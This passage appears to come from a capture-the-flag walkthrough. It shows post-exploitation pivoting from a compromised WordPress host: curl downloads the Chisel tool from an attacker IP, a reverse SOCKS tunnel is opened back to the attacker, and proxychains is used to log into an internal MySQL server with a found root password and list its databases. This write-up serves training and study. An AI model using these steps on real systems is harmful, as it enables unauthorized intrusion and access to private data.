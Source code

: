     
    
    www-data@wordpress:/tmp$ curl -s 10.10.14.6/chisel_1.7.6_linux_amd64 -o c
    

I’ll work out of `/tmp` as `dev/shm` is mounted noexec. I’ll start it as a
server server on my client:

    
    
    oxdf@hacky$ ./chisel_1.7.6_linux_amd64 server -p 8000 --reverse
    2021/10/08 15:37:11 server: Reverse tunnelling enabled
    2021/10/08 15:37:11 server: Fingerprint N52pbJIIK/5bKBt+7XNYJZrb3MPo7gLjp2cYCIwG6CM=
    2021/10/08 15:37:11 server: Listening on http://0.0.0.0:8000
    

Now I’ll connect the client:

    
    
    www-data@wordpress:/tmp$ ./c client 10.10.14.6:8000 R:socks
    2021/10/08 19:38:44 client: Connecting to ws://10.10.14.6:8000
    2021/10/08 19:38:45 client: Connected (Latency 88.955517ms
    

`R:socks` tells Chisel to allow for me to do a reverse Socks proxy from the
server through the client. The connection shows up at the server as well:

    
    
    2021/10/08 15:38:44 server: session#1: tun: proxy#R:127.0.0.1:1080=>socks: Listening
    

I’ll make sure my `/etc/proxychains.conf` file has a SOCKS5 proxy through
1080:

    
    
    [ProxyList]
    socks5  127.0.0.1 1080
    

Now I can connect:

    
    
    oxdf@hacky$ proxychains mysql -h 172.69.0.102 -u root -pOnlyTheBestSecretsGoInShellScripts
    ProxyChains-3.1 (http://proxychains.sf.net)
    |S-chain|-<>-127.0.0.1:1080-<><>-172.69.0.102:3306-<><>-OK
    Welcome to the MariaDB monitor.  Commands end with ; or \g.
    Your MySQL connection id is 1083
    Server version: 8.0.26 MySQL Community Server - GPL
    
    Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.
    
    Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
    
    MySQL [(none)]>
    

The databases for Gogs and WordPress are here:

    
    
    MySQL [(none)]> show databases;
    +--------------------+
    | Database           |
    +--------------------+
    | gogs               |
    | information_schema |
    | mysql              |
    | performance_schema |
    | sys                |
    | wordpress          |